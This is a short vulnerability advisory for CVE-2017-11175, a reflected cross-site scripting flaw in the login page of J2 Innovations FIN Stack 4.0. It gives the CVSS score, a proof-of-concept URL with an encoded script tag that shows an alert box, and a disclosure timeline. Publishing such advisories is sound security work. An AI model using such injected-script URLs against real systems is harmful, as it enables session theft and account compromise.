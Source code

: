 # CVE-2017-11175 - XSS in J2 Innovations FIN Stack 4.0

- Vendor: J2 Innovations
- Product: FIN Stack
- Version: 4.0
- CVE: CVE-2017-11175
- CVSS3.0 Base Score: 8.2 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N/E:P/RL:U/RC:C)

The authentication webform is vulnerable to reflected XSS via the query string to /login.

## Detailed Description of the Vulnerability

An attack is performed by manipulation of the URL, which points to the login page. The attack doesn't require authentication.
```
http://<domain>/login?<malicious code goes here>.
```

### PoC
```
http://example.com/login?a%22%3E%3Cscript%3Ealert%28%27MIR%20XSS%20Test%27%29%3C/script%3Ea=1
```
## Timeline

* 2017-07-05 - Vendor has been informed
* 2017-07-11 - Submitted request for a CVE number to Mitre
* 2017-07-12 - Mitre assigned CVE-2017-11175
* 2017-08-25 - Innovations says that it will take a month or two to fix
